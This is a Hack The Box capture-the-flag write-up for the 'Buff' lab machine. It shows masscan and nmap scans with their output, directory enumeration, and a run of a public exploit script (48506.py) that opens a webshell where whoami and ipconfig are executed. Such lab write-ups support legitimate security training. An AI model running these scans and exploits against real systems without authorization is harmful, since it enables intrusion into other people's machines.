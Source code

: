 # Buff
## Reconnaissance

* Performed TCP and UDP scans using Nmap & Masscan.
```
kali@kali:~/HTB/buff$ sudo masscan -p1-65535 10.10.10.198 --rate=1000 -e tun0 > ports && ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//') && nmap -Pn -sV -sC -A -p$ports 10.10.10.198
[sudo] password for kali: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-11-09 05:36:11 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 00:37 EST
Nmap scan report for 10.10.10.198
Host is up (0.27s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.32 seconds


PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|2008|7 (89%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_server_2008::sp1 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (89%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

* Web enumeration
```
dirbuster for http://10.10.10.198:8080
Threads:30
extensions:php,aspx,asp,txt
not recursive
```
![image](https://raw.githubusercontent.com/kookiecrack/images/main/dirbuster-buff.png)
![image](https://raw.githubusercontent.com/kookiecrack/images/main/web-enum-buff.png)



kali@kali:~/HTB/buff$ python 48506.py 'http://10.10.10.198:8080/'
            /\                                           
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/                                                                                                    
                                                                                                                  
[+] Successfully connected to webshell.                                                                           
C:\xampp\htdocs\gym\upload> whoami   
                                                         
buff\shaun                                               
                                                                                                                  
C:\xampp\htdocs\gym\upload> ipconfig                                                                              
                                                         
                                                         
Windows IP Configuration                                 
                                                         
                                                         
Ethernet adapter Ethernet0:                              
                                                         
   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::e08d:2e97:530f:20d2
   Temporary IPv6 Address. . . . . . : dead:beef::281a:6286:c82e:b88c
   Link-local IPv6 Address . . . . . : fe80::e08d:2e97:530f:20d2%10
   IPv4 Address. . . . . . . . . . . : 10.10.10.198 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:9eb2%10
                                       10.10.10.2                                                                 
